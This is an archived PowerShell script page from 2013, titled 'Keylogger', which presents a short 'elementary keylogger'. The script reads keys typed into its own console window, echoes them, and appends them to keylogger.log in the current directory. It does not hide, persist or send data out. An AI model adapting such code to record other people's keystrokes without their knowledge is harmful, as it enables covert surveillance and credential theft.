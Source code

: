 ```yaml
---
pid:            4707
author:         greg zakharov
title:          Keylogger
date:           2013-12-17 10:22:43
format:         posh
parent:         0

---
```


# Keylogger

### [download](Scripts\4707.ps1)

Example of elementary keylogger.

```posh
[String]$buff = ""

while($true) {
  [Console]::ReadKey("`r") | % {
    if ($_.Key -eq 'Enter') {break}
    if ([Char]::IsLetterOrDigit($_.KeyChar) -or [Char]::IsWhiteSpace($_.KeyChar) -or`
        [Char]::IsPunctuation($_.KeyChar) -or [Char]::IsSymbol($_.KeyChar)) {
      $buff += $_.KeyChar
      Write-Host $_.KeyChar -no
    }
  }
}
""

if (-not [String]::IsNullOrEmpty($buff)) {
  Out-File ($pwd.Path + '\keylogger.log') -in $buff -enc ASCII -app -for
}
```
